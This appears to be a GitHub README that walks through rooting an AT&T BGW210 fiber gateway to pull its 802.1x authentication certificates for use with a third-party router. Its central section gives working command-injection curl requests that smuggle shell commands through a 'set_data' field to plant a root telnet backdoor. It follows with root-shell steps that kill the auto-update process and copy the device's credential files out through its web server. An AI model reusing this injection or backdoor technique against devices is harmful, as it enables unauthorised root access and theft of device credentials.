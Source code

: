 # BypassAttRG

This method works to rip the 802.1x keys from BGW210.

<!-- **Background**: I switched to AT&T fiber and I hate AT&T's residential gateways -->


## Menu
- [Prerequisites](#prerequisites)
- [Extract Certificates](#extract-certificates)
- [Configuring 802.1x authentication](#configuring-8021x-authentication)
- [Miscellaneous](#miscellaneous)
- [Credits & References](#credits--references)

  
## Prerequisites
- [Python 3](https://www.python.org/downloads/release/python-373/) for the local http server. There are many alternatives(e.g. [mobaxterm](https://mobaxterm.mobatek.net/)).
- Basic knowledge of POSIX commands (cd, mkdir, wget, etc.).
- A BGW210

[Back to menu](#menu)
## Extract Certificates Tested
The certificates extracted from both NVG589 and BGW210 work fine from my tests using Mikrotik's RB4011 and CCR2004 w/switch in front to remove VLAN0 802.1p tags that AT&T feels they MUST use.

### Downgrade

Download the signed 1.0.29 firmware, then go to http://192.168.1.254

Click Diagnostics, then Update.

You'll select 1.0.29.

Give the gateway 3 minutes to restart since it's a POS.

## Ripping Certs

Once downgraded, go to http://192.168.1.254/cgi-bin/ipalloc.ha , type your device access code to login, and assign a static IP to your PC that you'll be executing the CURL commands from.

I assigned my PC: 192.168.1.70 since that's what the RG's DHCP-Server had assigned it.

Once you assign a static IP,  refresh your PC's local ip address. using ifconfig, or ipconfig if on windows (cmd prompt: ipconfig /release and then ipconfig /renew). You may ignore this step if you assigned the same IPv4 it received by the DHCP-Server.

Once that's done, open http://192.168.1.254/cgi-bin/ipalloc.ha and authenticate again if it asks.

Once you authenticate, run these CURL commands (remember to navigate to cURL, see my video for help.

(tech has no password when prompted)

  ```
curl -k -u tech -H "User-Agent: blah" -H "Connection:Keep-Alive" -d "appid=001&set_data=| echo 28telnet stream tcp nowait root /usr/sbin/telnetd -i -l /bin/nsh > /var/etc/inetd.d/telnet28|" -v --http1.1 https://192.168.1.254:49955/caserver
 
curl -k -u tech -H "User-Agent: blah" -H "Connection:Keep-Alive" -d "appid=001&set_data=| pfs -a /var/etc/inetd.d/telnet28|" -v --http1.1 https://192.168.1.254:49955/caserver
 
curl -k -u tech -H "User-Agent: blah" -H "Connection:Keep-Alive" -d "appid=001&set_data=| pfs -s|" -v --http1.1 https://192.168.1.254:49955/caserver
 
curl -k -u tech -H "User-Agent: blah" -H "Connection:Keep-Alive" -d "appid=001&set_data=| reboot|" -v --http1.1 https://192.168.1.254:49955/caserver
  ```
 
The AT&T RG (BGW210) will reboot after the final command, and you'll be able to telnet on port 28 as admin w/ device access code as the password once it reboots. 

(Use Putty if using a Windows PC)
 
Once you're logged in via telnet, type ! and press enter to elevate to a root sh terminal

Now, type top and let the telnet terminal populate with the running processes of the RG.

Once the top command displays all of the running process, look for a process labelled:   
  ```
/usr/bin/udpsvd -E 0 69 tftpd /lib/firmware
  ```
Press CTRL + C to break out of the top command.

Type kill PID_number_of_udpsvd; 
For example: kill 1048 (in the video I mistook the other four digit number for the PIV by mistake initially, then corrected myself).

This kills the auto update script so that you can make changes, or copy your 802.11x certificates without the ATT firmware automatically updating when you aren't ready for it. Not really as important if you don't have the RG connected to the ONT (I didn't in the video).

#### Extract Certificates
- In BGW210, run the following commands in order. Make sure you are in root shell. Reminder - Type `!`. It switches to root shell.
  ```
  mount -o remount,rw /dev/ubi0 /  
  mount mtd:mfg -t jffs2 /mfg
  cp /mfg/mfg.dat /www/att/mfg.dat
  Download: http://192.168.1.254/mfg.dat
  
  ## Next:
  
  cd /tmp
  tar cf cert.tar /etc/rootcert/
  cp cert.tar /www/att/images
  Download: http://192.168.1.254/images/cert.tar
  ```
- Reminder: Download http://192.168.1.254/mfg.dat and http://192.168.1.254/images/cert.tar to your **local** device.


[Back to menu](#menu)
## Configuring 802.1x authentication
### Decode Credentials 
Credit: [devicelocksmith](https://www.devicelocksmith.com/2018/12/eap-tls-credentials-decoder-for-nvg-and.html)

- Download decoder v1.0.4: [win](decoder/win/mfg_dat_decode_1_04.zip), [linux](decoder/linux/mfg_dat_decode_1_04.tar.gz), [mac](decoder/mac/mfg_dat_decode_1_04_macosx.zip)
  - [Original download page](https://www.devicelocksmith.com/2018/12/eap-tls-credentials-decoder-for-nvg-and.html)
- Copy *mfg.dat*, unzip *cert.tar* to the same location as *mfg_dat_decode*.
- Run *mfg_dat_decode*. You should get a file like this: *EAP-TLS_8021x_XXXX*.

## Miscellaneous

### Compile Entware packages from source
Some useful links
- [Compile-packages-from-sources](https://github.com/Entware/Entware/wiki/Compile-packages-from-sources)
- [Compile-custom-programs-from-source](https://github.com/RMerl/asuswrt-merlin/wiki/Compile-custom-programs-from-source)

[Back to menu](#menu)
## Credits & References
- [devicelocksmith](https://www.devicelocksmith.com/2018/12/eap-tls-credentials-decoder-for-nvg-and.html): EAP-TLS credentials decoder and the method to extract */mfg/mfg.dat*
- [earlz](http://earlz.net/view/2012/06/07/0026/rooting-the-nvg510-from-the-webui): Rooting The NVG510 from the WebUI
- [nomotion](https://www.nomotion.net/blog/sharknatto/): NVG589 root exploit
- [dslreports.com](https://www.dslreports.com/forum/uverse): A great forum with many useful information.
- [jsolo1@dslreports.com](https://www.dslreports.com/profile/422016): Provides many helpful & useful suggestions.
- [Streiw](https://www.reddit.com/r/ATT/comments/g59rwm/bgw210700_root_exploitbypass/): Creator of BGW210 Pastebin guide and discover of exploit and main hero of BGW210 root.

[Back to menu](#menu)
